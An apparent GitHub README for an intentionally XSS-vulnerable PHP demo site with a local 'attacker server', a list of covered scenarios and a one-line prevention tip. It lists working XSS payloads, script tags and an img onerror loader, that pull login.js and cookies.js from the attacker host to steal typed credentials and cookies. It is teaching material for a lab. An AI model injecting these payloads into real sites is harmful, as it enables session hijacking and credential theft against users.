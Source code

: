 # simple XSS vulnerable site

## To run
client server
```
php -S localhost:8000
```

attacker server
```
php -S 127.0.0.1:6969
```

## Covered situations
- [x] xss on comments
- [x] opens a loging modal and send user input to attacker server
- [x] sends cookies to attacker server
- [x] url xss
- [x] preventions

## XSS examples
- `simple input script`
- `<script src="http://127.0.0.1:6969/login.js"></script>`
- `<script src="http://127.0.0.1:6969/cookies.js"></script>`
- [notTested] `<img onerror="var s=document.createElement('script');s.src='http://127.0.0.1:6969/login.js';document.body.appendChild(s)"/>`

## Prevention
simply use `htmlspecialchars()`